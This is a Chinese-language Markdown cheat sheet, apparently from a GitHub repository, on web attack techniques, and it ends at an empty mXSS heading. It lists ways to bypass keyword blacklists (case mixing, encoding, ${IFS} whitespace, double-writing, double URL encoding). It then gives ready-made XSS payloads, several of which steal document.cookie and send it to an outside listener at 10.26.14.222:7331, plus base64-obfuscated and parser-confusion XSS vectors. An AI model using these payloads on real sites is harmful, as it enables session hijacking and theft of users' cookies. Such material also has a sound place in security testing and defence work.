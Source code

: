 ## 通用黑名单绕过手法

等价替换/利用程序特征、漏洞等价替换

- 关键字随机大小写：如`PhP`、`<ScRIpt>`、`UnIoN`等
- 编码：如十六进制编码、URL编码、HTML实体编码等
- 空白符替换：`%09`、`%0a`、`%0d`、内联注释符`/**/`、分隔符`${IFS}`等
- 关键字替换：如`phtml`代替`php`、`&&`代替`and`、`||`代替`or`等
- 某些情况下可以添加额外的字符而不影响程序执行结果：如首尾的空格、`.`、`/.`、`ca\t`、`c'a't`等
- 双写：如`pphphp`、`<scr<script>ipt>`等
- 程序缺陷：如两次URL编码`%252f`、SQL注释`-#- #`等

## XSS

```HTML
<script>
document.write('<img src="http://10.26.14.222:7331/?c=' + document.cookie + '" />');
</script>
```

```HTML
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://10.26.14.222:7331/?c=' + document.cookie, true);
xhr.send();
</script>
```

```HTML
<script>document.location='http://10.26.14.222:7331/?c='+document.cookie</script>
```

```HTML
<script>new Image().src='http://10.26.14.222:7331/?c='+document.cookie;</script>
```

```html
<ScRIpt>prompt`3334444`</sCriPT>

<iframe src="data:text/html;base64,PG9iamVjdCBkYXRhPWRhdGE6dGV4dC9odG1sO2Jhc2U2NCxQSE5qY21sd2RENXdjbTl0Y0hSZ016TXpORFEwTkdBOEwzTmpjbWx3ZEQ0PT48L29iamVjdD4="></iframe>

<object data="data:text/html;base64,PHNjcmlwdD5wcm9tcHRgMzMzNDQ0NGA8L3NjcmlwdD4="></object>

"-prompt`3334444`-"

<style><a alt="</style><img src=x onerror=alert(1)>">
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
<svg><style><img src=x onerror=alert(1)>
<math><p></p><style><!--</style><img src/onerror=alert(1)>--></style></math>
<!--a foo=--!><img src=x onerror=alert(1)><!--<a>">
<![CDATA[<math><img src=x onerror=alert(1)>]]>
```

### mXSS
